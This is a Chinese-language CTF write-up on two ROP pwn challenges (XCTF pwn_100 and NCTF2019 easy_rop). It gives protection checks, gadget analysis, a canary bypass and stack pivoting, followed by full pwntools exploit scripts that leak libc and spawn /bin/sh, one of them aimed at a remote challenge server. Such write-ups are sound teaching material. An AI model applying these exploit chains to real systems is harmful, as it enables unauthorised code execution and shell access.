

Easy_ROP_I
ROP是一种攻击方式，通常利用程序中的一小段对寄存器的操作进行利用，ROP的进阶还有更大的利用空间，这里记录一个XCTF_Pwn中简单的ROP攻击
保护措施
1 | # checksec pwn_100 |
2 | Arch: amd64-64-little |
3 | RELRO: Partial RELRO |
4 | Stack: No canary found |
5 | NX: NX enabled |
6 | PIE: No PIE (0x400000) |
程序关闭了栈保护和地址随机化，难度降低了很多
分析
分析可知需要输入200个字节的长度，而写入的首地址距离RBP仅仅0x40长度，典型的栈溢出，而我们要做的就是将/bin/sh传入某个地方，并调用system函数。
但是仅一个read函数，程序也没有后门函数，或者system，/bin/sh的存在，此处我们可以先动态调式一番，然后vmmap查看内存地址中的rwx权限

在0x601000地址处具有w权限，而程序又没有PIE，那么这个地址就是程序的绝对地址，我们可以将/bin/sh直接写入到此处
此外，我们还需要选择我们需要的gadget构建ROPchain，利用read函数将/bin/sh写入0x601000，而我们需要控制edi和edx以及rsi，所以我们在初始化时init处取得
pop_rdi_ret 可以通过命令 ROPgadget –binary ./程序名 –only ‘pop|ret’ 取到地址
Gadget
1 | gadget1: |
2 | pop rbx |
3 | pop rbp |
4 | pop r12 |
5 | pop r13 |
6 | pop r14 |
7 | pop r15 |
8 | retn |
1 | gadget2: |
2 | mov rdx, r13 |
3 | mov rsi, r14 |
4 | mov edi, r15d |
5 | call qword ptr [r12+rbx*8] |
6 | add rbx, 1 |
7 | cmp rbx, rbp |
8 | jnz short loc_400740 |
通过两个gadget，我们可以控制read函数调用时的参数，从而指定read写入，并在执行完加上stop gadget,从而再次回到程序开始，从而泄漏函数的真实地址，则泄露出程序运行的libc版本，需要三次传值，第一次写入命令，第二次泄漏地址，第三次取前两步的结果并成功利用
利用
EXP:
1 | from pwn import* |
2 | from LibcSearcher import LibcSearcher |
3 | p = remote('111.198.29.45',32858) |
4 | #p = process('./pwn_100') |
5 | elf = ELF('./pwn_100') |
6 | context.log_level = 'debug' |
7 | puts_plt = elf.plt['puts'] |
8 | start_main_got = elf.got['__libc_start_main'] |
9 | read_got = elf.got['read'] |
10 | start_addr = 0x400550 |
11 | binsh_addr = 0x00601000 |
12 | gadget1_addr = 0x40075A |
13 | gadget2_addr = 0x400740 |
14 | pop_rdi_ret = 0x400763 |
15 | payload = 'Z'*0x40 + p64(0)+ p64(gadget1_addr) + p64(0) + p64(1) + p64(read_got) + p64(9)+p64(binsh_addr) +p64(0) + p64(gadget2_addr) + p64(0) * (6 + 1)+ p64(start_addr) |
16 | payload = payload.ljust(199,'Z') |
17 | p.send(payload) |
18 | p.sendlineafter('bye~\n','/bin/sh\x00') |
19 | payload2 = 'Z'*0x40 + p64(0) + p64(pop_rdi_ret) + p64(start_main_got) + p64(puts_plt) + p64(start_addr) |
20 | payload2 = payload2.ljust(199,'Z') |
21 | p.sendline(payload2) |
22 | p.recvline() |
23 | start_main_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) |
24 | libc = LibcSearcher('__libc_start_main', start_main_addr) |
25 | libcbase = start_main_addr - libc.dump('__libc_start_main') |
26 | system_addr = libcbase + libc.dump('system') |
27 | #binsh_addr = libcbase + libc.dump('str_bin_sh') |
28 | rop = 'Z'*0x40 + p64(0)+ p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr) |
29 | rop = rop.ljust(199,'Z') |
30 | p.sendline(rop) |
31 | p.interactive() |
Easy_ROP_II
第二题，我取的是NCTF2019里面的一个ROP题，这个题难度进阶了一下。
简单分析
1 | $ checksec easy_rop |
2 | Arch: amd64-64-little |
3 | RELRO: No RELRO |
4 | Stack: Canary found |
5 | NX: NX enabled |
6 | PIE: PIE enabled |
保护开启了Canary以及PIE，比第一题上升了一定的难度，那么我们先试试IDA静态分析
1.首先给数组分配了26*4个字节的空间到栈里，但是需要输入34个int整型值，并每次都会打印此值
2.可在BSS段写入一段字符串，写入的大小明显的可栈溢出
所以简单的分析后，应思考如何打印出Canary的值或者绕过Canary，不然无法栈溢出，此处有个技巧:在输入的时候，输入+,-不会修改栈中的值
思路
1.输入 + 或者 - 绕过Canary，然后打印出EBP，获得PIE值
2.利用栈迁移，令栈到达最后写入的BSS段处
3.在BSS段写入攻击代码，打印出某个函数的实际地址，并取得libc版本
4.修改某函数的Got表内保存的地址为execve(“/bin/sh”)的地址，最后调用的函数，令程序执行/bin/sh
利用
1 | from pwn import* |
2 | from LibcSearcher import* |
3 | p = process('./easy_rop') |
4 | elf = ELF('./easy_rop') |
5 | context.log_level = 'debug' |
6 | puts_plt = elf.plt['puts'] |
7 | puts_got = elf.got['puts'] |
8 | read_plt = elf.plt['read'] |
9 | read_got = elf.got['read'] |
10 | def leak(): |
11 | p.sendlineafter(': ','+') |
12 | p.recvuntil(' = ') |
13 | var_one = int(p.recvuntil('\n'))&0xFFFFFFFF |
14 | p.sendlineafter(': ','-') |
15 | p.recvuntil(' = ') |
16 | var_two = (int(p.recvuntil('\n'))&0xFFFFFFFF)*0x100000000 |
17 | return (var_one + var_two) |
18 | def Set(address): |
19 | p.sendlineafter(': ',str((address%0x100000000))) |
20 | p.sendlineafter(': ',str(address/0x100000000)) |
21 | |
22 | List = [] |
23 | for i in range(0,15): |
24 | List.append(leak()) |
25 | log.success('Canary:\t' + hex(List[13])) |
26 | log.success('RBP:\t'+hex(List[14])) |
27 | |
28 | base = List[14] - 0xB40 |
29 | main_addr = base + 0xA31 |
30 | migrate_addr = base + 0x201420 |
31 | pop_rdi_ret = base +0xBA3 |
32 | pop_rsi_ret = base +0xBA1 |
33 | gadget_one = base + 0xB9A |
34 | gadget_two = base + 0xB80 |
35 | |
36 | Set(base+0xB9D) |
37 | Set(base+0x201408) |
38 | |
39 | p.recvuntil('name?\n') |
40 | rop = p64(pop_rdi_ret) + p64(base+0x201258) + p64(base+0x810) + p64(gadget_one) + p64(0) + p64(1) + p64(base+0x201258) + p64(9) + p64(base+0x201238) + p64(0) |
41 | rop += p64(gadget_two) + p64(0) * (6 + 1) + p64(base+0x810) |
42 | p.sendline(rop) |
43 | read_addr = u64(p.recvuntil('\n',drop =True).ljust(8,'\x00')) |
44 | log.success('Read_Addr:\t' + hex(read_addr)) |
45 | libc = LibcSearcher('read',read_addr) |
46 | libcbase = read_addr - libc.dump('read') |
47 | exec_addr = libcbase + 0xE569F |
48 | p.sendline(p64(exec_addr)) |
49 | p.interactive() |